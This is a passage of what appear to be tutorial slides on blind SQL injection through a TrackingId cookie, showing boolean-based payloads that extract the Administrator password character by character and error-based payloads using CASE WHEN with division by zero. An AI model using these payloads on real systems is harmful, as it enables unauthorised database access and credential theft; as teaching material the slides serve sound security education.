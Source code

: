 This will return `True` so we will get the 'Welcome back' message.

----

## Blind SQL injection

```
Cookie: TrackingId=xyz' AND '1'='2
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND '1' = '2'
```

This will return `False` so we won't get the 'Welcome back' message.

----

## Blind SQL injection

```
Cookie: TrackingId=xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'a
```

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'a'
```

If the 'Welcome back' message is showed then the first character is 'a' and we can start checking for the second character.
If not we try 'b', 'c', and so on until we get it right.

---

## Blind SQL injection - inducing conditional responses by triggering SQL errors

What if injecting different Boolean conditions makes no difference to the application responses?

----

## Blind SQL injection - inducing conditional responses by triggering SQL errors

```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'
```

```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'
```

----
